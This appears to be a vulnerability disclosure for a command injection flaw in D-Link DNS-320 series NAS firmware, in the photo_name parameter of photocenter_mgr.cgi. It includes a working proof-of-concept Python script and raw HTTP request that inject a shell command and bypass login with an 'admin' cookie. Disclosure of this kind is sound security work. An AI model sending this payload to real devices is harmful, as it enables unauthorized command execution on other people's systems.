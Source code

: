 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L  all firmware version
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_move_photo function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `photo_name` is passed from a POST request and is assigned to `v8` via the `sprintf` function at line 60. It is then passed into `v4` and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution. ![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723392351533-8af7fe45-fab8-4e0e-9259-04c233438c21.png#averageHue=%23fdfdfb&clientId=ud7a282ba-29c6-4&from=paste&height=402&id=ufb891253&originHeight=596&originWidth=702&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=74374&status=done&style=none&taskId=ue890aafc-1758-417b-8dc2-5b40e358e0e&title=&width=474)

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723392201018-b593177e-c596-4ff7-be9e-80e9917d2cce.png#averageHue=%23fefefc&clientId=ud7a282ba-29c6-4&from=paste&height=221&id=u856c5829&originHeight=249&originWidth=1200&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=35665&status=done&style=none&taskId=uac1f638b-b8e6-4390-94f6-436b64d0d01&title=&width=1066.6666666666667)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_move_photo&photo_name=%0atouch%09/tmp/444%0a&move_to=/tmp/111&move_from=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_move_photo&photo_name=%0atouch%09/tmp/444%0a&move_to=/tmp/111&move_from=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/
```


